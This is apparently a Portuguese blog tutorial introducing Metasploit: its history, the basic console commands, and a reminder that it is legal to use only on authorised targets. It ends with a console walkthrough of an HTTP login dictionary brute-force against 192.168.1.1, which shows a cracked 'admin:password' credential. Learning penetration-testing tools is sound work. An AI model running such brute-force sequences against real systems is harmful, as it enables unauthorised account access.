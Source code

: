 ```yaml
---
date: '2022-12-21T19:18:16.260Z'
title: Utilizando Metasploit, resumo básico do funcionamento 
tagline: Metasploit.
preview: >-
  O Metasploit é um software de exploração de vulnerabilidades de
  código aberto que pode ser usado para realizar testes de penetração e
  desenvolver exploits. Ele foi criado por HD Moore em 2003 e é mantido pela
  empresa de segurança cibernética Rapid7
image: >-
    https://cdn.pixabay.com/photo/2017/08/10/08/47/laptop-2620118_960_720.jpg
---
```


O **Metasploit** é um software de exploração de vulnerabilidades de código aberto que pode ser usado para realizar testes de penetração e desenvolver **exploits**. Ele foi criado por HD Moore em 2003 e é mantido pela empresa de segurança cibernética Rapid7. O Metasploit possui uma ampla biblioteca de exploits que podem ser usados para comprometer sistemas vulneráveis, bem como ferramentas de auxílio à exploração e post-exploração. Além disso, o Metasploit também inclui recursos para criar payloads personalizados e para fazer o gerenciamento de sessões de exploit. Ele é amplamente utilizado por profissionais de segurança cibernética para testar a segurança de sistemas e aplicativos.

Para utilizar o Metasploit, primeiro é necessário instalá-lo em seu sistema. Isso pode ser feito baixando o código fonte do Metasploit a partir do GitHub e compilando-o manualmente, ou instalando uma versão pré-compilada disponível em alguns repositórios de pacotes de software. Depois de instalado, o Metasploit pode ser iniciado a partir da linha de comando.

Uma vez iniciado o Metasploit, você pode começar a usá-lo digitando comandos na linha de comando. Por exemplo, para selecionar um exploit específico para ser usado, você pode usar o comando `use` seguido pelo nome do exploit. Em seguida, você pode ver as opções disponíveis para o exploit selecionado usando o comando `show options`, e definir valores para essas opções usando o comando `set`. Quando estiver pronto, você pode executar o exploit selecionado contra o alvo especificado usando o comando `exploit`.

O **Metasploit** também inclui várias ferramentas de auxílio à exploração e de post-exploração que podem ser usadas para obter informações adicionais sobre o sistema alvo e para realizar ações adicionais após a exploração bem-sucedida. Para selecionar e usar essas ferramentas, o processo é semelhante ao descrito acima para exploits.

É importante lembrar que o uso do Metasploit deve ser feito com cuidado e somente em sistemas e aplicativos que seja permitido testar. O uso indevido do Metasploit pode causar danos a sistemas alvo e é considerado ilegal em muitas jurisdições. Portanto, é importante conhecer e seguir as leis e regulamentos locais ao usar o Metasploit.

Existem muitos comandos diferentes disponíveis no Metasploit, e aqui estão alguns dos comandos mais comuns:

`use`: Seleciona um módulo de exploit ou de auxílio à exploração específico para ser usado.

`show options`: Exibe as opções e parâmetros disponíveis para o módulo selecionado atualmente.

`set`: Define um valor para uma opção específica do módulo selecionado atualmente.

`exploit`: Executa o exploit selecionado atualmente contra o alvo especificado.

`sessions`: Gerencia sessões de exploit ativas, incluindo a visualização e interação com elas.

`search`: Pesquisa na biblioteca de exploits por palavras-chave específicas.

`load`: Carrega um plug-in personalizado no Metasploit.

`help`: Exibe ajuda sobre um comando específico ou uma lista de todos os comandos disponíveis.

Esses são apenas alguns exemplos de comandos do Metasploit. Para obter uma lista completa e detalhada dos comandos disponíveis, é recomendável consultar a documentação do Metasploit ou usar o comando `help` no próprio software.

Aqui está um exemplo de comando do Metasploit que pode ser usado para realizar um ataque de dicionário simples em um sistema alvo:

```terminal
msf5 > use auxiliary/scanner/http/http_login
msf5 auxiliary(scanner/http/http_login) > show options

Module options (auxiliary/scanner/http/http_login):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BLANK_PASSWORDS   true       yes       Try blank passwords for all users
   BRUTEFORCE_SPEED  5          yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false      no        Try each user/password couple stored in the current database
   DB_ALL_PASS      false      no        Add all passwords in the current database to the list
   DB_ALL_USERS     false      no        Add all users in the current database to the list
   PASSWORD                  no        A specific password to authenticate with
   PASS_FILE                 no        File containing passwords, one per line
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   Realm                     no        The realm to probe
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                     80        The target port
   STOP_ON_SUCCESS   false      yes       Stop guessing when a credential works for a host
   TARGETURI                /         The base path to the web application
   USERNAME                  no        A specific username to authenticate with
   USERPASS_FILE                   no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false      no        Try the username as the password for all users
   USER_FILE                  no        File containing usernames, one per line
   USER_AS_PASS_FILE  false      no        Try the username as the password for each user specified in USER_FILE

msf5 auxiliary(scanner/http/http_login) > set USER_FILE /root/usernames.txt
USER_FILE => /root/usernames.txt
msf5 auxiliary(scanner/http/http_login) > set PASS_FILE /root/passwords.txt
PASS_FILE => /root/passwords.txt
msf5 auxiliary(scanner/http/http_login) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf5 auxiliary(scanner/http/http_login) > exploit

[*] 192.168.1.1:80 - Starting HTTP login brute force
[*] 192.168.1.1:80 - The target is using BASIC authentication
[*] 192.168.1.1:80 - Trying username "admin" with password "password"
[+] 192.168.1.1:80 - Login successful: "admin:password"
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/http_login) >

```